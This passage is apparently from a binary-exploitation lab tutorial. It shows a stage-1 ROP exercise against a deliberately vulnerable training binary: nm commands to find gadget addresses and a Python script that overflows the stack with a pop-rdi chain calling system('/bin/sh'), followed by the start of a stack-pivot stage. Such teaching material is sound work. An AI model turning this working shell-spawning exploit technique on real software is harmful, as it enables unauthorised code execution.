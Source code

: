 ```bash
make stage1
nm -n stage1 | egrep ' BINSH| call_system$| gadget_pop_rdi_ret$| gadget_ret$'
```

You’ll capture addresses for:

* `gadget_pop_rdi_ret`
* `gadget_ret` (sometimes handy for alignment)
* `call_system` (wrapper around `system` avoids PLT complexity)
* `BINSH` string

### Exploit (stage 1)

```python
# exploit_stage1.py
import subprocess, re, struct, sys

# pull symbol addresses deterministically via nm
nm = subprocess.check_output(["nm","-n","stage1"]).decode()
syms = {}
for line in nm.splitlines():
    m = re.match(r"^([0-9a-fA-F]+)\s+[A-Za-z]\s+(\S+)$", line)
    if m:
        syms[m.group(2)] = int(m.group(1),16)

OFFSET = 72  # adjust if your layout differs
pop_rdi = syms['gadget_pop_rdi_ret']
call_sys = syms['call_system']
binsh   = syms['BINSH']

chain = [
    pop_rdi,
    binsh,
    call_sys,
]

payload = b"A"*OFFSET + b"".join(struct.pack('<Q', x) for x in chain)
sys.stdout.buffer.write(payload)
```

Run:

```bash
python3 exploit_stage1.py | ./stage1
```

> If you crash, verify `OFFSET` in `gdb` and that addresses match `nm -n` exactly. All binaries are `-no-pie`, so addresses should be fixed.

---

## Stage 2 – `stage2_pivot.c` (Stack pivot + mini‑ROP)

* Goal: learn **stack pivoting** using `leave; ret` into a controlled heap buffer, then execute a chain there.
